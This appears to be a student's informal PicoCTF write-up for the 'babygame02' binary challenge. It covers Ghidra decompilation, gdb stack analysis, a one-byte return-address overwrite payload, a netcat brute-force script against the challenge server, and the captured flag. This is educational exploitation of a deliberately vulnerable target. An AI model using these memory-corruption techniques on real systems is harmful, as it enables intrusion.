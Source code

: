 PicoCTF Babygame02 Writeup: Like Babygame01, we are placed in a 30 x 90 grid
with a flag('X') placed on the bottom right corner. Upon reaching it, the
game exits, but we do not get the flag.

![Start of the game](images/babygameEnter.png)

wtf why no worky its ghidra time

also previous keybindings work like 'p' and 'l' lmao

ok code looks wonky, lets see what happens now. Hmmmmmmm, theres a win function
that, but its not called?

Local a9d is probably map, 
like before player height is probs aa8, and width is a9d based on the while
conditionals, but this time there is no win Flag? how do we wiiiiiin?
First I clean up stuff.

![image of player struct, move stuff around though, like the code which is out
of order](images/playerStructGhidra.png)

wtf retyping map from undefined[2700] to char[2700] removed the ecx stack
alignment procedure variables local_10 and also local_11? Whyyyyyy. Also am I
supposed to include this in writeup or just ask question hmmmmmmmm 

ok anyway code is cleaned up and looks so pretty :)

Like before, the only thing we control is the input to move_player so lets see
what abilities this gives us.

It looks like the same thing, we are able to set our player's position to
anything and so overwrite memory outside of the map. We can also change
player_tile using 'l'. omg arbitrarily change memory!??! well no :( can only
specify one byte to be a specific value before it gets changed to 0x2e (.) so it
will look like ...l where l is the player set value. 

We need to call the win function, and we have the ability to overwrite an
arbitrary amount of bytes with the value 0x2e, and one byte with a chosen value.
What can we do? Could try jumping to win function, address of 0x0804975d, but
thats 4 bytes to overwrite. However, move_player is called at 0x08049704, its
return value is the address of the next instruction, 0x08049709. This is only
one byte off from the address of win, so we only need to overwrite a single byte
to win!

![Where move_player gets called from main, along with where it returns
to](images/movePlayerCall.png)

To find the position of the location of move_player's return address relative to
the map, we can use gdb. I've set a breakpoint at the very start of
move_player (before ebp is pushed) in order to examine its return value and arguments.

![finding addresses with gdb](images/gdbFindAddress.png)

At this state, esp contains the return address, esp + 0x4 contains the address
of the player struct (move_player's first argument), esp + 0x8 points to our input (0x77='w'),
and esp + 0xc is address of the beginning of the map struct. We want to change
the least significant byte of our return address from 0x09 to 0x5d, so we want
to write to 0xffffc24c (this is little endian, so the LSB is stored at the
base). Our map starts at 0xffffc273 (based on the third argument) so we want to
access map[0xffffc24c - 0xffffc273] = map[-39]. Of course, we want to be careful
not to write to other values on the stack that might cause the game to break.
One way we could do that is by setting our index to have the game access map[51]
and moving up so that the game will access map[51-90]=map[-39]. I will do this: 
set the player to 0x5d = ']' and move to (0, 0), than perform the following
sequence of moves:
```
's' map[90]
'a' * 39 map[90 - 39] = map[51]
'w' map[51 - 90] = map[-39]
```
Final command looks like this: `echo
aaaawwwwl]saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw | ./game`

On local machine:

![win function triggered](images/localMachine.png)

Unfortunately I get trolled on challenge instance and breaks before giving a
flag:(
This is probably because return address is different so its probably a good idea 
to brute force the last byte. I write a little script to make brute forcing
easier.

```bash
#! /bin/sh

pwn () {
	echo "aaaawwwwl$1saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw" | nc saturn.picoctf.net 49232 > out; tail out
}
```

After like 5 attempts,

![Flag is given](images/pwn.png)


We get the flag picoCTF{gamer_jump1ng_4r0unD_0c5d2789}

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}
```

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  playerStruct player;
  char map [2700];
  
  init_player(&player);
  init_map(map,&player);
  print_map(map,&player);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      move_player(&player,(int)(char)iVar1,map);
      print_map(map,&player);
    } while (player.height != 0x1d);
  } while (player.width != 0x59);
  puts("You win!");
  return 0;
}
```

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void move_player(playerStruct *player,char input,int map)

{
  int iVar1;
  
  if (input == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }
  if (input == 'p') {
    solve_round(map,player);
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = 0x2e;
  if (input == 'w') {
    player->height = player->height + -1;
  }
  else if (input == 's') {
    player->height = player->height + 1;
  }
  else if (input == 'a') {
    player->width = player->width + -1;
  }
  else if (input == 'd') {
    player->width = player->width + 1;
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = player_tile;
  return;
}
```
